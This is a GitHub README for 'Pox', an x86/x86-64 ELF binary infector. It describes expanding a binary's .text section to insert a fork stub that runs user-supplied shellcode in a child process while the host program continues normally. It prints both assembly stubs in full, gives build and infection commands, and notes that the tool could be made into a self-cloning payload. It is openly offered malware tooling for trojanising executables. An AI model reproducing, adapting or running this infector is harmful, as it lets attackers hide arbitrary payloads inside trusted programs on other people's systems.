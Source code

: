 # Pox
Pox is a no-nonsense C99 x86/x86-64 ELF Binary Infector. Aside from debug messages, Pox does not use the standard library itself and can easily be compiled with MUSL, CShell, or a similar framework to be entirely self-contained. This would allow for an injectable payload which can clone itself, though the exact means to perform this are not necessarily provided.

### How it works
The Australian security researcher Silvio Cesare developed a tried-and-true method for ELF infection. The concept is very strong, although the code provided I found to be entirely unstable. It relied on certain assumptions of section header attributes that ended up being violated by many of the binaries that I tried. Instead, extracting the .strshtab (String Section Header Table) and comparing the section name to ".text" is much safer. Here is a high-level overview of how it functions:

 - Load and validate an ELF binary and ensure its target architecture matches the desired payload architecture
 - Parse the ELF headers and locate the .text section header and encompassing program header
 - Expand the size of the .text section to allow for more arbitrary code
 - Adjust the offsets of each of the section headers that follow .text
 - Place a small piece of stub machine code in the new empty .text section that forks the process
 - The parent process will need to know the entry point of the original program. The difference between the old entry point and new payload address will be subtracted from the current instruction pointer to achieve this effect.
 
 
 ### The Stubs
 
 There are two assembly payloads (x86, x86-64) which are pre-pended to every ELF file perform the same task essential tasks:
  - Store the clobbered registers (in the case of x86, EBX is ultimately not preserved)
  - Fork the process via a system call
  - Check if the process is the child. If it is, jump to the beginning of the user-provided payload.
  - The parent process should replace the registers and return to the original entry point to continue the flow of execution.
  
  The offset values represented by 0x11223344 are automatically replaced by the program with the offset between the current instruction pointer and the original entry point.
  
  **X86 Stub**

    pushad
    xor eax, eax

    mov al, 0x02
    int 0x80
    test eax, eax
    jz child

    popa
    call get_eip
    sub ebx, 0x11223344
    jmp ebx

    get_eip:
      mov ebx, [esp]
      ret

    child:
    
**X64 Stub**

    push rax
    push rcx              
    push rdx
    push rsi
    push rdi
    push r11

    xor rax, rax
    mov al, 0x39
    syscall
    test rax, rax
    jz child

    pop r11
    pop rdi
    pop rsi
    pop rdx
    pop rcx
    pop rax

    lea r8, [rip]
    sub r8, 0x11223344
    jmp r8
    child:
    
    
### How to Use Pox

To build Pox, you must have a GCC compiler and make installed:

    git clone https://github.com/GoodiesHQ/Pox && cd Pox
    make
   
Once built, you will need:
- a file containing the binary shellcode (or otherwise positionally independent) payload
- an ELF binary as a target with the same architecture as your shellcode payloda

Once these are gathered, you may infect the ELF file of your choice. It will create a new file with the same name as the one provided with an added suffix ".pox"

    ./pox <target file> <shellcode file> <shellcode arch = "32" | "64">
    
### TODO:

 - Enable some ability to determine if the file has already been infected.
